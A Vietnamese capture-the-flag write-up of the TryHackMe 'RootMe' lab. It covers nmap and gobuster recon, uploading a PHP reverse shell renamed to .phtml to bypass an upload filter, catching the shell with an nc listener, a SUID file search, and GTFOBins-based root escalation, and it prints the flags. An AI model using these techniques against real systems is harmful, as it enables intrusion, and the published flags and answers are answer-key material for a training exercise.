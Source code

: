 # RootMe

## Deploy the machine
> No answer needed

===============================================================================================

Những câu ở task 2 thì chỉ cần **nmap** phát là nó ra hết à...

Đây là kết quả sau khi nmap máy mục tiêu
```c
└─$ cat scan_result     
# Nmap 7.94 scan initiated Mon Oct 16 21:56:44 2023 as: nmap -sC -sV -oN nmap/scan_result 10.10.36.56
Nmap scan report for 10.10.36.56
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 16 21:57:34 2023 -- 1 IP address (1 host up) scanned in 49.66 seconds
```
## Scan the machine, how many ports are open?
> 2
## What version of Apache is running?
> 2.4.29
## What service is running on port 22?
> ssh
## Find directories on the web server using the GoBuster tool.
> No answer needed
## What is the hidden directory?
 Với file ẩn thì dùng GoBuster để tìm

    gobuster dir -w /usr/share/wordlists/dirb/common.txt 10.10.185.22

 Và đây là kết quả:
 ```c
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.185.22/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.185.22/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.185.22/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.185.22/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
----------------------------------------------------------------

## Find a form to upload and get a reverse shell, and find the flag.
> Answer the questions below

Có vẻ như chúng ta cần chèn 1 cái reverse shell vào trang web này để lấy flag, trùng hợp là ở **/panel** ta có thể upload file lên.

![img/image1.png](img/image1.png)

Sau đó tìm kiếm 1 cái reverse shell php trên github rồi tải về https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Thử upload nó lên nhưng tác giả đã chặn không cho upload file php, tuy nhiên với file php, đuôi php không phải là đuôi file duy nhất:)) , thử đổi tên file reverse shell thành đuôi .phtml, sau đó thử upload lên và kết quả là đã thành công.

Sau đó mở file này ở bên **/uploads** đồng thời ở terminal cũng dùng:
```c
nc -lvp 9999
``` 
Cái này mục đích để lắng nghe các kết nối có cổng 9999, khi chạy file reverse bên máy chủ và đặt cổng của trong reverse shell file là 9999.

```
└─$ nc -lvp 9999
listening on [any] 9999 ...
10.10.231.195: inverse host lookup failed: Unknown host
connect to [10.18.36.52] from (UNKNOWN) [10.10.231.195] 51950
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:55:35 up 39 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Giờ thì chúng ta đã chui vào được trong trang web, giờ thì tìm file user.txt thôi. Nếu rảnh thì cũng có thể tìm trong từng thư mục:)) hoặc nếu không rảnh thì có thể dùng:
```
$ find / -name user.txt -type f 2>/dev/null    
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
Hể ưe go đây là flag đầu tiên!

## Privilege Escalation

Welp đề bài có nói về quyền SUID, quyền này đơn giản thì file nào có quyền này sẽ được chạy với quyền ROOT, nên có thể khai thác được, để kiểm tra quyền SUID:
```c
   find / -perm -u=s -type f 2>/dev/null
```

Sau khi search, có một thứ khá là lạ có quyền SUID

![img/image2.png](img/image2.png)

### Search for files with SUID permission, which file is weird?
> /usr/bin/python

Để xác nhận, có một trang web khá hay ho để kiểm tra các lỗ hổng https://gtfobins.github.io/

Sau khi tìm kiếm thì ta có được đoạn script này để khai thác lỗ hổng và leo thang đặc quyền

![img/image3.png](img/image3.png)

Chạy nốt câu lệnh và ta đã truy cập được với quyền root, giờ vào **/root** để lấy flag cuối cùng thôi.
### root.txt
> THM{pr1v1l3g3_3sc4l4t10n}



